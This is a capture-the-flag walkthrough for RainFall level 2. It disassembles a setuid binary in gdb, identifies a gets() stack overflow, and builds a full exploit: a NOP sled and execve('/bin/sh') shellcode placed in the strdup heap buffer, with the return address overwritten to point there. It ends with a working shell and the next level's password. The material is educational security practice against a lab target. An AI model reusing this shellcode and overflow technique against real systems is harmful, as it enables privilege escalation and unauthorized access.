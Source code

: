 # Level 2

- We login as user level2:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2

level2@RainFall:~$ gdb level2
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
```
>`0x8049860 <stdout@@GLIBC_2.0>: 0xb7fd1a20`

>Call `<fflush@plt>`.


```
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Prompt the user without imposing any input size limit.


```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```
>`0x4(%ebp) --> 0xbffff70c`

>`0xbffff70c:     0x0804854a`

>`saved eip 0x804854a`
>After receiving the input, if the return address of the function starts with `0xb`, we will call `<printf@plt>` and then `<_exit@plt>`. Otherwise, we jump to `<puts@plt>`.


```
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
```
>`0x8048620: "(%p)\n"`

>`-0xc(%ebp) --> 0xbffff70c`

>`0xbffff70c:     0x0804854a`

>`saved eip 0x804854a`
>Print the function return address.


```
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
```
>Call `exit(1)`


```
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Print the buffer


```
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Cpy the buffer into the heap.


- To redirect the program's execution flow, the function must `return`, so we must avoid `<_exit@plt>`.


- We are looking to replace the return address of the function with an address that contains our shellcode. However, we cannot store our shellcode in the environment or in the stack of the `p()` function because these addresses all start with `0xb`.
```
(gdb) info reg
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...
```

```
(gdb) x/3s *(char**)environ
0xbffff8f5:      "SHELLCODE=1\322Rh//shh/bin\211\343\061\300\260\v̀"
0xbffff915:      "TERM=xterm-256color"
0xbffff929:      "SHELL=/bin/bash"
```


- `0xc0000000` to `0xffffffff` is reserved for the kernel, attempting to access it would result in a segmentation fault.


- So, we need a way to write our shellcode into much lower addresses, such as in the heap at the memory address returned by `<strdup@plt>`.
```
(gdb) b*0x0804853d
Breakpoint 1 at 0x804853d
```

```
(gdb) r < <(echo 123)
...
Breakpoint 1, 0x08048538 in p ()

(gdb) x/s $eax
0x804a008:      "123"
```


- The input should thus be in the form of `(NOP's) + SHELLCODE + (FILLER) + \x08\xa0\x04\x08`. The question now is how many characters are needed for the return address of the `p()` function to start being overwritten. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).


- The return address is found to be replaced after the 80th character. We would be tempted to do this:
```
(gdb) r < <(python -c "print '\x90'*53 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x08\xa0\x04\x08'"; cat)
```


- However, we would have an issue because of this:
```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```


- Indeed, this part of the code copies the return address value from the function a little further down in the stack. This would have the effect of overwriting a portion of our shellcode. Therefore, we must leave a small space, precisely 16 bytes:
```
level2@RainFall:~$ (python -c "print '\x90'*37 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*16 + '\x08\xa0\x04\x08'"; cat) | ./level2
...
whoami
level3

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```